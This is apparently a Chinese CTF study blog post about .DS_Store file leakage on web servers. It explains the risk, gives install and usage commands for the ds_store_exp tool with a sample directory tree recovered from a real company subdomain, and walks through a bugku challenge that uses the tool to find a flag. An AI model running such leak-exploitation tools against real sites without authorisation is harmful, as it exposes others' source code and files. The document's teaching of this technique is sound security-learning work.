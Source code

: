 ```yaml
---
layout: post
title: 'DS_Store文件泄漏'
subtitle: 'DS_Store文件泄漏'
date: 2021-07-14
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 bugku刷题
---
```

### 什么DS_Store

.DS_Store是Mac OS保存文件夹的自定义属性的隐藏文件，如文件的图标位置或背景色，相当于Windows的desktop.ini。 其删除以后的副作用就是这些信息的失去

和别人交换文件（或你做的网页需要上传的时候）应该把 .DS_Store 文件删除比较妥当，因为里面包含了一些你不一定希望别人看见的信息。尤其是网站，通过 .DS_Store 可以知道这个目录里面所有文件的清单，很多时候这是一个不希望出现的问题。

### DS_Store文件泄漏

.DS_Store是Mac下Finder用来保存如何展示 文件/文件夹 的数据文件，每个文件夹下对应一个。由于开发/设计人员在发布代码时未删除文件夹中隐藏的.DS_store，可能造成文件目录结构泄漏、源代码文件等敏感信息的泄露。

### 利用工具——ds_store_exp

源码地址:[https://github.com/lijiejie/ds_store_exp](https://github.com/lijiejie/ds_store_exp)

这是一个 .DS_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地（生成一个该，目标网站的一个源码文件夹）。其运行需要python2环境。

从github上下载工具到本地后，先安装需要的相关库文件：

	pip install -r requirements.txt

使用：

	python ds_store_exp.py http://www.example.com/.DS_Store

Example：

	ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

	hd.zj.qq.com/
	└── themes
	    └── galaxyw
	        ├── app
	        │   └── css
	        │       └── style.min.css
	        ├── cityData.min.js
	        ├── images
	        │   └── img
	        │       ├── bg-hd.png
	        │       ├── bg-item-activity.png
	        │       ├── bg-masker-pop.png
	        │       ├── btn-bm.png
	        │       ├── btn-login-qq.png
	        │       ├── btn-login-wx.png
	        │       ├── ico-add-pic.png
	        │       ├── ico-address.png
	        │       ├── ico-bm.png
	        │       ├── ico-duration-time.png
	        │       ├── ico-pop-close.png
	        │       ├── ico-right-top-delete.png
	        │       ├── page-login-hd.png
	        │       ├── pic-masker.png
	        │       └── ticket-selected.png
	        └── member
	            ├── assets
	            │   ├── css
	            │   │   ├── ace-reset.css
	            │   │   └── antd.css
	            │   └── lib
	            │       ├── cityData.min.js
	            │       └── ueditor
	            │           ├── index.html
	            │           ├── lang
	            │           │   └── zh-cn
	            │           │       ├── images
	            │           │       │   ├── copy.png
	            │           │       │   ├── localimage.png
	            │           │       │   ├── music.png
	            │           │       │   └── upload.png
	            │           │       └── zh-cn.js
	            │           ├── php
	            │           │   ├── action_crawler.php
	            │           │   ├── action_list.php
	            │           │   ├── action_upload.php
	            │           │   ├── config.json
	            │           │   ├── controller.php
	            │           │   └── Uploader.class.php
	            │           ├── ueditor.all.js
	            │           ├── ueditor.all.min.js
	            │           ├── ueditor.config.js
	            │           ├── ueditor.parse.js
	            │           └── ueditor.parse.min.js
	            └── static
	                ├── css
	                │   └── page.css
	                ├── img
	                │   ├── bg-table-title.png
	                │   ├── bg-tab-say.png
	                │   ├── ico-black-disabled.png
	                │   ├── ico-black-enabled.png
	                │   ├── ico-coorption-person.png
	                │   ├── ico-miss-person.png
	                │   ├── ico-mr-person.png
	                │   ├── ico-white-disabled.png
	                │   └── ico-white-enabled.png
	                └── scripts
	                    ├── js
	                    └── lib
	                        └── jquery.min.js

	21 directories, 48 files

### 实例：bugku-sql注入2

此题本为sql账户入题目，但他同时也有DS_Store文件泄漏漏洞。

![](https://1024861435.github.io/assets/img/DS_Store1.png)

通过dirsearch扫描发现.DS_Store文件泄露

![](https://1024861435.github.io/assets/img/DS_Store2.png)

使用利用工具——ds_store_exp查看.DS_Store文件

	python ds_store_exp.py http://123.206.87.240:8007/web2/.DS_Store

![](https://1024861435.github.io/assets/img/DS_Store3.png)

发现flag文件，进入已下载下来的源码文件：

![](https://1024861435.github.io/assets/img/DS_Store4.png)